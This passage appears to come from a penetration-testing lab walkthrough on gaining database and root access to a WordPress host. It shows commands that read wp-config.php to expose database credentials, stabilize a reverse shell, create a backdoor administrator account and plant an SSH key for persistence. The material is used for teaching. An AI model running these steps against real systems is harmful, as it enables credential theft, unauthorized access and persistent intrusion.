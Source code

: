 ```bash
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-snapshots
wp-trackback.php
xmlrpc.php
```

### Gain DB and Root access:

```bash
whoami
php --version
 PHP 7.2.24-0ubuntu0.18.04.17 (cli) (built: Feb 23 2023 13:29:25) ( NTS )
 Copyright (c) 1997-2018 The PHP Group
 Zend Engine v3.2.0, Copyright (c) 1998-2018 Zend Technologies
    with Zend OPcache v7.2.24-0ubuntu0.18.04.17, Copyright (c) 1999-2018, by Zend Technologies
```

```bash
cat wp-config.php
 // ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wp-admin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'WP_wp_skillz!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
```bash
ls -la
```

Reverse Shell Stability(optional):
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Setup Persistence(optional): Add a new admin user to WordPress:
```bash
wp user create newadmin newadmin@example.com --role=administrator --user_pass='P@ssw0rd' --path=/var/www/blog.inlanefreight.local/public_html
```

SSH Access: If you find credentials, add your SSH key to authorized keys(optional):
```bash
echo "your-ssh-public-key" >> ~/.ssh/authorized_keys
```

